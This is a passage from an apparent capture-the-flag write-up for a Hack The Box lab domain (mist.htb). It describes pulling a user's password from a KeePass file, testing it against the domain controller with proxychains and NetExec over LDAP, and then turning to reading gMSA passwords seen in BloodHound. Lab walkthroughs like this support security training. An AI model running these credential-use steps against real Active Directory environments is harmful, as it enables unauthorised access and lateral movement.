Open the .kdbx and get the password of Sharron.Mullard

Now we can test the password on ```op_Sharon.Mullard```

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'op_Sharon.Mullard' -p 'REDACTED'
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAPS       192.168.100.100 636    DC01             [+] mist.htb\op_Sharon.Mullard:REDACTED 
```
## Read GMSA Passwords

On bloodhound we can see this : 

![alt text](<../assets/image_mist/7ER BLOODHOUND.png>)

Ok so let's read gmsa password first :
